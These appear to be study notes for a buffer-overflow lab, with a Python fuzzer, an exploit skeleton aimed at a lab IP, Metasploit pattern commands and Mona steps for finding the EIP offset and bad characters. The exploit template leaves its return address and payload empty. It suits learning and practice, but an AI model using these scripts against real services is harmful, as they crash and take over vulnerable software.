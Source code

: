 Notes on Buffer Overflows

### Basic Notes 
Need to run Immunity Debugger as Admin.
Make sure it's running.


## Configure Mona
#### Set up working folder
```
!mona config -set workingfolder c:\mona\%p
```
### Python Fuzzer Script

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "Target IP Address"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
  
##### Purpose of the Script
The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. We need to write down how many bytes it sends and add 400 to help with with the exploit.

##### After we know the value from the fuzzer, we can use Metasploit to create a cyclic pattern that we need for our exploit.
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (The number of bytes from the Fuzzer.py script + 400) 
```

##### Purpose of the Script
The exploit script is used to crash the service and help find the EIP Offset.
  ### Python Exploit Script
  
```python 
import socket

ip = "10.10.165.171"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
When we have the payload from the patter_create.rb script, we copy that into the payload variable and run the exploit script again. We then need to use Mona to help finish finding the EIP Offset.
```
!mona findmsp -distance (The number of bytes from the Fuzzer.py script + 400) 
```

###
We need to update the exploit script.
```python
offset = (needs to be the EIP value we just found from the last step)
retn = "BBBB"
```

### Finding Bad Chars

The folliwn Mona command will generate a bytearray and exclude the null byte (\x00) by default. * Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).
```
!mona bytearray -b "\x00"
```

##### Purpose of the Script
The following python script can be used to generate a string of bad chars from \x01 to \xff:
### Python Bad Chars Script

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
Once we run this, we use the output and update the exploit.py script payload variable with this output. Then run the exploit.py script again and start removing bad characters. We do this using Mona
```
!mona compare -f C:\mona\oscp\bytearray.bin -a (ESP Address)
```
